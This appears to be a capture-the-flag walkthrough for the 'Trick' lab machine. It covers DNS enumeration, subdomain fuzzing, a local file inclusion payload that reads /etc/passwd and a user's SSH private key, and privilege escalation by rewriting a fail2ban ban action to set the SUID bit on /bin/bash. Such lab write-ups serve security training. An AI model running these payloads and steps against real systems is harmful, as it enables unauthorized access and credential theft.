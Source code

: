 # Trick

Trick is a CTF that really pushes you to learn about DNS servers, reverse DNS lookup, fuzzing subdomains, LFI and a little bit of permission exploiting for privilege escalation.

## Enumeration

Start off with an NMAP scan, your command will look like this:
```
nmap -v -sC -sV -Pn <TARGET_IP>
```

![Image](images/1.png)

Ports 22 (ssh), 25 (SMTP), 53 (DNS), 80 (http server) are up. This means that the attack vectors could be between the SMTP server, the DNS server or the http server running on the target machine. The existence of a DNS server implies that there may be domain names that can be enumerated. Run nslookup for a reverse DNS lookup, the set of commands will look like this:

```
nslookup

server <TARGET_IP>

<TARGET_IP>
```

![Image](images/2.png)

`trick.htb` is the domain name for the target IP address. You have to update /etc/hosts and append each subdomain you come across to access it on your browser.

The next step would be to try looking for more domain names or subdomains via `dig` and `ffuf`. The commands would look something like this:

**dig**

```
dig axfr trick.htb @<TARGET_IP>
```

![Image](images/3.png)

This reveals that we have `trick.htb` `root.trick.htb` and `preprod-payroll.trick.htb` that we can look into. The first 2 are useless, but the third one seems to have some value. Unfortunately, it leads us nowhere even if you get the credentials.

**ffuf**

```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u http://trick.htb -H "Host: preprod-FUZZ.trick.htb" -fw 1697 -v -c
```

![Image](images/4.png)

Almost immediately, `preprod-marketing.trick.htb` is shown as a subdomain. This is how your /etc/hosts file should look like by now:

![Image](images/5.png)

This is what `preprod-marketing.trick.htb` looks like:

![Image](images/6.png)

While clicking tabs like Services, About or Contact, the URL has a page parameter. This implies the existence of LFI (Local File Inclusion). We can test this by using this wordlist found on Payloads of all things: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/Intruders/Traversal.txt

## Foothold

Start of with a command like this to see if the web application is vulnerable to LFI:

```
ffuf -w Traversal.txt:FUZZ -u http://preprod-marketing.trick.htb/index.php?page=FUZZ -fw 1 -v -c
```

![Image](images/7.png)

`/..././..././..././..././..././..././..././..././etc/passwd` will print the /etc/passwd file. Here we see that there is a user called michael. Another important payload would be `/..././..././..././..././..././..././..././..././home/michael/.ssh/id_rsa`

![Image](images/8.png)

Copy michael's private key and save it somewhere and use the `chmod 600 <FILE>` command on it in order to use the private key. (PS, make sure to format the private key properly. It won't recognize it unless you do so. Make sure to remove any extra spaces.)

With all this, the next step is to get a foothold, which is possible with SSH:

```
ssh -i id_rsa michael@10.10.11.166
```

Now, we have logged in to the target machine as michael and can view the use flag with the `cat user.txt` command.

## Privilege Escalation

Enter the command `sudo -l` to check if michael has permission to run as sudo.

> User michael may run the following commands on trick:
>
>   (root) NOPASSWD: /etc/init.d/fail2ban restart

This basically means that micheal can only run sudo with the mentioned command. Fail2ban is an IPS to protect systems from bruteforce attacks. Use the `id` command and we can see that michael is part of the security group.

Here on, you can use LinEnum or any other PrivEsc enumeration script, But I'm going to skip that part since you can do it yourself.

Use `find / -name fail2ban 2>/dev/null` to locate the config files for fail2ban, which can be found here `/etc/fail2ban`. 

![Image](images/9.png)

2 important things to note are:
- `action.d` is owned by the security group, so we can make edits there
- `jail.conf` tells us that fail2ban is enabled on ssh and banaction is configured in a file called `iptables-multiport`

Here on out, you have to be quick, because crontabs will reset the configuration files ever 3 minutes. `iptables_multiport` can be found in `action.d`

Run `vim iptables-multiport.conf`, scroll down and replace `actionban` and `actionunban` with these 2 lines:
- `actionban = chmod +s /bin/bash`
- `actionunban = chmod +s /bin/bash`

Save it with `:wq!` and then restart the service with `sudo /etc/init.d/fail2ban restart`. Go to your attacking machine and try to get yourself banned by typing an incorrect password for SSH authentication. After about 2 rounds of it, you should see that /bin/bash has got a SUID bit added to it. Run `bash -p` and read the flag using `cat /root/root.txt`
